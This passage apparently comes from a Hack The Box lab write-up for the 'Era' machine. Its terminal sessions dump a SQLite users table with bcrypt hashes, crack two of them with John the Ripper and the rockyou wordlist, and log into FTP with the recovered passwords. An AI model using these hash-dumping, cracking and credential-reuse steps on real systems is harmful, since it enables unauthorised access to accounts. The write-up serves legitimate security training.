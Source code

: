 By enumerating the database, we can get the credit of users
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ sqlite3 filedb.sqlite         
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
1|admin_ef01cab31aa|$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC|600|Maria|Oliver|Ottawa
2|eric|$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm|-1|||
3|veronica|$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK|-1|||
4|yuri|$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.|-1|||
5|john|$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6|-1|||
6|ethan|$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC|-1|||
sqlite> select * from files;
54|files/site-backup-30-08-24.zip|1|1725044282
sqlite> 

```

Then we can crack the hash of `yuri` and `eric`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ john yuri.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mustang          (?)     
1g 0:00:00:15 DONE (2025-07-27 14:10) 0.06265g/s 18.79p/s 18.79c/s 18.79C/s adidas..bowwow
Use the "--show" option to display all of the cracked passwords reliably

┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ john eric.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
america          (?)     
1g 0:00:00:01 DONE (2025-07-27 14:47) 0.5747g/s 75.86p/s 75.86c/s 75.86C/s america..louise
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Then we can use his credit to access to ftp
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ ftp 10.10.11.79 21  
Connected to 10.10.11.79.
220 (vsFTPd 3.0.5)
Name (10.10.11.79:wither): yuri
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||31631|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 22 08:42 apache2_conf
```